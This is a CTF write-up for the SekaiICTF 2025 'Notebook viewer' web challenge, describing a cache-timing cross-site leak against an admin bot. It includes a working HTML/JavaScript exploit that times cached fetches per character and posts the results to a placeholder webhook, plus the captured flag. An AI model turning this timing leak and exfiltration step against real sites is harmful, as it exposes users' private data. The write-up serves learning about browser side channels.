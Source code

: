 ```yaml
---
title: "SekaiICTF 2025 - Notebook viewer"
date: 2025-08-16
description: "DNS cache probing (?) + xsleaks"
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTCJOogvjq4Qsz7VSPnEyoWTidg1hKYp8gngA&s'
translationKey: 'media'
stage: "evergreen"
toc: true
---
```


This CTF is memorable, cause it's the first time i first blooded a web chall in a big ctf. Here is the detailed write-up for this:

## notebook viewer (346 points, 1st solve)
![2](/commons/ctfs/sekaiCTF2025/2.png)

The source code is nothing too much, just classic admin-bot challenges, but we have a new thing: `shadow DOM` which i just read about it last week by masato: [https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow](https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow)

I guess some of you trying to break the shadow DOM, but i think its impossible cause if you notice on the `adminbot.js`:

```js
...
    await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
        waitUntil: "networkidle2"
    });

    let page2 = await browser.newPage();

    await page2.goto(url);

    await new Promise((res) => setTimeout(res, 15000));

    await browser.close();
    browser = null;
...
```
`page1` and `page2` means that the flag page and our page is in separate process, like a different tab, and there is no way to comeback the flag page (`window.history.go(-1)`,... is unusable here). But an idea just came up to my head instantly after look at these line 

![1](/commons/ctfs/sekaiCTF2025/1.png)

The upper is when i pass `/?note=hsw109`, it happens cause in index.html
```js
...
    const uri = new URL(location.href);
    const note = uri.searchParams.get('note') || 'my secret notes';

    function srcFor(i, code) {
      return `https://nbv-${i}-${code}.chals.sekai.team/`;
    }

    for (let i = 0; i < note.length; i++) {
      const code = note.codePointAt(i);
      const frame = document.createElement('iframe');
      frame.scrolling = 'no';
      frame.src = srcFor(i, code);
      wrap.appendChild(frame);
    }
...
```
You can see that each character of our passed note, there are an URL for this. And also if you notice a key part of my solution is in bot.js

![3](/commons/ctfs/sekaiCTF2025/3.png)

While doing this, i think that if the bot visited the flag page -> it also visited all the specific `https://nbv-${i}-${code}.chals.sekai.team/` URL corresponding to the flag .So i guess that with this option, its kinda faster if we load the URL same as flag URL -> brute force all of them, also setup a timer to compare all of them -> the fastest is the flag character we want, then i ask ChatGPT about that idea (ofc):

![5](/commons/ctfs/sekaiCTF2025/5.png)

Then i turn out that is the cache-timing probe attack (funny that i just read it in xsleaks and havent do it before). To be honest, while doing this i still assume that the bot option helps to "delete" the DNS resolution time for that URL (like the comment said :P). So eventually, me (and ChatGPT) create a small script to solve this, yep after some fixes it works well:

```html
<!doctype html>
<meta charset="utf-8">
<title>nbv first char timing</title>
<pre id="log">init…</pre>
<script>
const i = 0; 
const CHARS = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!#$%&()*+,-./:;<=>?@[\]^_`{|}~'";
const codes = [...new Set([...CHARS].map(c => c.charCodeAt(0)))];

async function tFetch(u){
  const t0 = performance.now();
  try { await fetch(u, {mode: "no-cors", cache: "force-cache"}); } catch(e) {}
  return performance.now() - t0;
}

(async () => {
  const timings = [];
  for (const code of codes) {
    const url = `https://nbv-${i}-${code}.chals.sekai.team/`;
    const t1 = await tFetch(url);
    const t = t1;
    const guess = String.fromCharCode(code);
    timings.push({ guess, t });
  }
  timings.sort((a,b)=>a.t - b.t);
  const best = timings[0];
  const post = (obj) => {
    const blob = new Blob([JSON.stringify(obj)], {type:"application/json"});
    fetch("<webhook>", {method:"POST", mode:"no-cors", body: blob});
  };
  post({kind:"calibration", timings});
})();
</script>
```
Put it as response for your webhook (personally i used requestrepo), then add another webhook to capture the output, here is what i got when getting first index `i=0`
![6](/commons/ctfs/sekaiCTF2025/9.png)

yeah the gap between the right and wrong one is ~1ms (incredibly but its still the right one "S"), what about the next one?

`i=1`

![8](/commons/ctfs/sekaiCTF2025/8.png)

yeah its definitely our flag yayyyy!!! If you continue, you can get the full flag, but careful if sometime our right char we're guessing is in the first index of the charset, it can cause all of our delta T have the same, then you need to move that charset backward to your charset. I dont have VPS and too lazy to setup API to requestrepo, so i do this by hand. Finally we got the flag:

> SEKAI{Pr*<3$5-1SolAT10n_X5l34K5_fTW}

Thank you guys for reading!